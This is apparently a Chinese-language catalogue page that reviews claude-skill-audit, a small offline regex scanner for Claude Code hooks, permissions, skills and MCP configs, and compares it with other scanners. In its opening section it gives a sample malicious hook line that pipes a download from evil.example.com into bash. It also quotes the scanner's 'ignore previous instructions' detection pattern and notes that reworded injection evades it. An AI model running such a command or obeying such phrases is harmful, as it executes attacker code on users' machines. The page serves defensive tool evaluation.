

# claude-skill-audit

你的 `~/.claude` 目录里有不少你从没读过却会自动执行的东西：一个每次提问都把 `curl` 结果喂给 shell 的 hook，一条 `Bash(*)` 放行规则，一个用不锁版本的 `npx -y` 启动的 MCP server。claude-skill-audit 是一个很小的模式匹配扫描器，一次读完这些文件，把命中已知危险写法的行列出来。它只有一位作者、零 star，扫描结果只能当一次快速 lint，不能当“没问题”的证明。

## 何时使用

你在用 Claude Code，配置里堆着别人写的东西：从 GitHub 抄来的几个 skill、博客里贴的 agent 定义、同事提交的 `.mcp.json`，其中大部分你没打开看过。`settings.json` 的 `UserPromptSubmit` 下面可能就躺着一行 `"command": "curl http://evil.example.com/x.sh | bash"`，而你并不知道。你想要的是一分钟内的第一遍筛查，告诉你该先打开哪几个文件，同时不想为此装一套 Python 工具链，不想把文件交给 LLM，也不想让扫描器自己联网。

这正是它和邻居的分界。[SkillSpector](skillspector.zh.md) 回答的是“这一个 skill 能不能装”，引擎深得多（AST、YARA、依赖漏洞查询、可选的 LLM 评审），但要 Python 3.12+，而且看的是单个 skill 目标，不看你的 hook 和权限放行列表。claude-skill-audit 反过来：只用浅层正则，却一次横扫整个配置目录，包括 `SKILL.md`、agent 定义、`settings.json` 里的 hook 与权限、`.mcp.json`、`CLAUDE.md`；没有任何运行时依赖，源码约 49 KB 的 TypeScript，信它之前可以整个读完。当“小到能自己审完、完全离线”比检测深度更重要，并且你接受目前除了作者没有已知使用者时，才选它。

## 怎么用起来

它相当于给配置目录用的 linter：只读文本，拿一张固定的模式清单去比对，不会运行、安装或上传它读到的任何东西。你克隆仓库、构建，然后把 CLI 指向一个目录。加载器先收集它认识的文件：所有 `SKILL.md`、`agents/` 目录下一层的 Markdown、`settings.json` 与 `settings.local.json`、`.mcp.json` 与 `.claude.json`、`CLAUDE.md` 和 `rules/*.md`；遇到压缩包或安装器（`.zip`、`.exe`、`.dmg` 等）只记下**路径**，不打开内容。七个规则模块里有六个逐个文件比对，每个就是一组正则表达式（描述文本形状的模式，比如“`curl` 之后用管道接 `sh`”）或 JSON 键查找；第七个是“提权链”检查，专门找跨文件的组合：审批提示被关掉，同时某个 skill 授予了 `Bash`/`Write`，同时某个 MCP server 能访问网络，三者凑齐就合并报成一条。留给你自己做的事：判断每条命中是真是假（它没有豁免文件），去读 hook 和 skill 指向的那些脚本（它不会打开），以及用 `--fail-on` 和 `--json` 把退出码接进 CI。

<!-- flow-steps:begin (generated from flows/claude-skill-audit.json by tools/flow_card.py — do not edit) -->

流程文字版

1. **你**：克隆仓库并从源码构建（还没有 npm 包） — `npm install · npm run build`
2. **你**：把 CLI 指向你的 Claude Code 配置目录 — `node dist/cli.js ~/.claude`
3. **claude-skill-audit**：收集 skill、agent、设置、MCP 配置、规则文件和压缩包路径 — 组件：`文件加载器`
4. **claude-skill-audit**：逐个文件比对六组模式，再查一条跨文件组合链 — 组件：`规则模块`
5. **claude-skill-audit**：按严重度列出命中的文件行号和修法，达到 high 就以非零码退出

**价值**：离线跑一遍就知道先打开哪几个配置文件，不用逐个手工 grep

<!-- flow-steps:end -->

## 何时不用

- **你要一个对真实 Claude Code 权限配置靠得住的闸门。** 它的“绕过审批”检查读的是 `settings.json` 顶层的 `defaultMode` 和 `skipAutoPermissionPrompt`（见 `src/rules/permission-rules.ts`、`escalation-rules.ts`），而 2026-10-08 抓取的 Claude Code settings reference 里，这个键写作 `permissions.defaultMode`，并且完全没有出现 `skipAutoPermissionPrompt`。按文档写法配置时，`perm/default-mode` 和作为卖点的提权链都不会触发 [推断：依据是源码与官方文档的对照，没有在真实配置上运行]。请手工检查 `permissions.defaultMode`，或改用 AgentShield（`affaan-m/agentshield`，也就是 [ECC](../agent-dev-methodology/coding-agent-harnesses/ecc.zh.md) 自带的那个扫描器），它有真实用户会报这类漏检。
- **风险在代码里，不在文字里。** 它只读上面列出的文件。一个 `command` 写成 `~/.claude/hooks/sync.sh` 的 hook，只凭这一个字符串判断，脚本本身不会被打开；skill 的 `scripts/*.py`、`commands/` 下的斜杠命令文件、插件清单则根本不加载。skill 带代码时用 [SkillSpector](skillspector.zh.md)，它会分析脚本和依赖。
- **注入指令不是那几句固定英文。** 检测靠字面正则，例如 `ignore (all) previous instructions`；中文或换个说法的指令会原样放过（2026-10-08 用仓库里的正则实测）。措辞可能变化时，用 [SkillSpector](skillspector.zh.md) 的 LLM 语义评审。
- **你要的是正经的密钥扫描。** 它只有五条模式。用仓库里的正则实测：经典的 `sk-` 加 16 位字母数字能命中，但 `sk-ant-…`、`sk-proj-…`、`github_pat_…` 这几种形状都不命中，其中包括它所审计的这款工具的厂商自己的密钥格式。密钥用 Gitleaks（`gitleaks/gitleaks`），这个工具只留给配置专属的检查。
- **你要把它铺成团队的 CI 闸门。** 没有 baseline、忽略文件或行内豁免，没有 SARIF（只在 roadmap 里），没有 npm 包，也没有可以锁定的 release tag。任何含 `curl` 的 hook 都是 `high`，而 `--fail-on` 默认就是 `high`，一个正当的 webhook hook 会让流水线直接变红，且无法标记为已接受。需要 baseline 和 SARIF 时用 [SkillSpector](skillspector.zh.md)。
- **你要在 agent 运行时拦截。** 这是只读的静态扫描，什么都拦不住。需要策略门控 tool call 和审计日志时用 [agent-governance-toolkit](agent-governance-toolkit.zh.md)。
- **你要明年还有人维护的东西。** 零 star，一位作者，五个 commit 集中在两天，2026-08-06 之后没有动静。看重持续性就用 [SkillSpector](skillspector.zh.md)（NVIDIA 名下）或 AgentShield；只有当你愿意把它当成自己要养的代码时才用它。
- **你的 agent 不是 Claude Code。** 文件发现逻辑写死了 `.claude/` 的目录结构，以及 Claude Code 的 `settings.json` 和 `.mcp.json` 形状；别的 harness 的配置它根本找不到。

同一领域还有两个扫描器 `snyk/agent-scan` 和 `HTS-Sleeping-Place/skills-scanner`，正和本页在同一批次收录；定选型之前，先到本分类的索引里找它们。

## 横向对比

| 替代品 | 是否收录 | 我们的评价 | 取舍 |
|---|---|---|---|
| [SkillSpector](skillspector.zh.md) | ✅ | 问题是“这个第三方 skill 能不能装”时选 SkillSpector；只有想离线快速扫一遍自己的 hook、权限和 MCP 配置时才选 claude-skill-audit，因为这部分不在 SkillSpector 的单 skill 扫描范围内。 | SkillSpector 换来 AST/YARA/依赖分析、baseline、SARIF 和 NVIDIA 名下的仓库，代价是要装 Python 3.12+，并可能向 OSV 与 LLM provider 外发数据；本工具离线且极小，但检测浅、未经验证。 |
| AgentShield（`affaan-m/agentshield`） | 未收录 | 同样覆盖整套配置（hook、MCP、权限、密钥），又想要可安装的包和现成的用户群，优先 AgentShield；只有明确想要一份零依赖、能从头读到尾的代码时才选 claude-skill-audit。 | AgentShield 约 1.3k star，有 npm 发布渠道（截至 2026-10），但要信任的代码面更大；本工具没有用户也没有包，要审的只有 14 个源文件。本批次标签页收录未添加。 |
| Cisco skill-scanner（`cisco-ai-defense/skill-scanner`） | 未收录 | 想要厂商维护、专门针对 agent skill 的扫描器，先看 Cisco 这个；只有 settings、hook 和 MCP 配置也要纳入，且模式级筛查就够用时，才轮到 claude-skill-audit。 | Cisco 的仓库很活跃（2026-10-05 有 push，约 2.6k star），但 GitHub 上许可证显示 `NOASSERTION`，本页也没有读它的规则；本工具是 MIT 且在这里完整读过，但已停更。本批次标签页收录未添加。 |
| Gitleaks（`gitleaks/gitleaks`） | 未收录 | 查配置文件里的凭据就跑 Gitleaks，它的规则集远比这里的五条宽；claude-skill-audit 留给 Gitleaks 不懂的部分，比如 hook 命令和 `Bash(*)` 授权。 | Gitleaks 是成熟且广泛使用的密钥扫描器（截至 2026-10 约 29.8k star），但不理解 agent 配置；本工具认得 `.claude/` 结构，却漏掉常见密钥格式。本批次标签页收录未添加。 |
| [agent-governance-toolkit](agent-governance-toolkit.zh.md) | ✅ | 要求是在危险 tool call 发生的当下拦住它时，选 agent-governance-toolkit；claude-skill-audit 只能事前告诉你配置看起来有风险。 | 该工具包是一整套要集成和运维的运行时栈；本工具是一次性只读扫描，不用部署任何东西，也拦不住任何东西。 |

## 技术栈

- **TypeScript（ES modules），用 `tsc` 编译**到 `dist/`；CLI 入口是 `dist/cli.js`，参数解析用 Node 内置 `node:util` 的 `parseArgs`。
- **七个规则模块**位于 `src/rules/`（`injection`、`hook`、`permission`、`mcp`、`secret`、`escalation`、`supply-chain`），每个都是“已加载文件进、findings 出”的纯函数；每条检查要么是正则，要么是 JSON 键查找。README 仍写六个，`supply-chain` 模块是倒数第二个 commit 才加的。
- **输出：** 按严重度分组的彩色文本报告，或 `--json`；两种输出里密钥值都被替换成 `[REDACTED]`，渲染层还会再清洗一遍。
- **测试：** Node 内置 test runner，跑四个 fixture 目录（`clean`、`malicious`、`security-doc`、`nested-claude`）；GitHub Actions 在 Node 22 上执行 typecheck、build 和测试。

## 依赖

- **运行时：** Node.js 22 及以上（`package.json` 的 `engines`）。`dependencies` 为空；14 个源文件只引用了 `node:fs`、`node:path`、`node:util` 和 `node:url`。
- **构建期：** `typescript` ^5.6 和 `@types/node` ^22，外加用来克隆的 `git`。没有已发布的包，从源码构建是唯一的安装方式。
- **不联网，不调 LLM，不需要 API key。** 源码里没有任何打开网络连接的地方；文件从磁盘读取，压缩包只记路径、不打开。

## 运维难度

**跑起来低，但要自己养。** 一次扫描就是 `npm install`、`npm run build`、`node dist/cli.js <dir>`，没有服务、状态或凭据。成本在别处：没有发布渠道，你得锁定一个 commit SHA，升级时自己重读 diff；没有豁免机制，每一条已接受的 finding 都要在工具之外处理（在 `--json` 外面包一层脚本，或调低 `--fail-on` 的门槛）。

## 健康度与可持续性

- **维护（2026-10-08）：** 2026-07-18 创建；一共五个 commit，集中在两天（2026-07-18 和 2026-08-06），此后 63 天没有更新。没有 tag，没有 GitHub release；`package.json` 写的是 `0.1.0`。最近四次 CI 均通过。应把它看成一个已经做完、目前在滑行的周末量级项目，而不是在积极维护的扫描器。
- **治理与 bus factor：** 个人账号下的单一贡献者，没有 `CONTRIBUTING`、`SECURITY.md`，也没有任何 issue 记录。作者停手，项目就停；缓解因素是它足够小，可以 fork 后自己带着走。
- **采用度——直说就是零：** 0 star、0 fork、0 watcher，从未有人开过 issue 或 pull request，npm 上 `claude-skill-audit` 这个名字返回 404（均为 2026-10-08 的数据）。这意味着没有已知的外部用户跑过它，没有人报告过漏检，它的检测质量除了作者自己的 fixture 之外没有经过任何检验。对安全工具来说，这一点比对别的工具更要紧，因为漏检是无声的。
- **年龄与 Lindy：** 项目才 82 天。无论往好还是往坏推，都没有可依靠的长寿先验。
- **风险信号：** MIT（已读根目录 `LICENSE`），没有换许可证的历史，没有 open-core 分层。零运行时依赖让它自身的供应链面降到最小。README 里与其他扫描器的对比以及“没有别的扫描器能做到”的说法属于宣传，本页无法佐证；README 的模块数量也已经和源码对不上。

## 存疑（未验证）

- [未验证] 本轮通过 GitHub API 读了 `src/` 下全部 14 个文件、README、`package.json`、lockfile、`LICENSE`、CI workflow 和两个 fixture 的 `settings.json`；没有克隆、构建或运行该工具，所以 README 里的示例输出（malicious fixture 上 25 条 finding）是作者自述，这里没有复现。
- [推断] “绕过审批的检查和提权链在真实配置上不触发”这一判断，依据是源码（顶层 `defaultMode` / `skipAutoPermissionPrompt`）与 2026-10-08 抓取的 Claude Code settings 文档（`permissions.defaultMode`；没有 `skipAutoPermissionPrompt`）的对照。没有在真实的 Claude Code 安装上测试，也可能存在旧版或未写进文档的键名。
- [未验证] README 点名 Bumblebee、MCP-Scan、SkillGuard 和 AgentLinter 是覆盖面更窄的竞品，但没有给链接；本页没有确认它们具体指哪些仓库，也没有核对“它们都不覆盖完整攻击面”的说法。
- [未验证] supply-chain 规则的源码注释提到“2026-08-06 实际观察到”两个木马 skill 仓库；注释没有给出仓库名，这一观察无法核对。
- [未验证] README 引用的三篇事件报道（Check Point / CVE-2025-59536、Cato Networks、The Hacker News）本页没有打开核实。
- [未验证] 对 AgentShield、Cisco skill-scanner 和 Gitleaks 的评价只依据它们的 GitHub 元数据，AgentShield 另参考了本索引的 ECC 页；三者都没有在这里读到源码层面。
- [推断] 两个 commit 作者名（`tarangj2004-dotcom` 和 `Tarang Jammalamadaka`）被当作同一个人，依据是 GitHub 把全部五个 commit 都归到唯一贡献者 `tarang-tj` 名下。
- [未验证] 没有在大型真实 `~/.claude` 上测过误报情况；“凡是含 `curl` 的 hook 都是 high”一句读自 `src/rules/hook-rules.ts`，不是运行时观察到的。
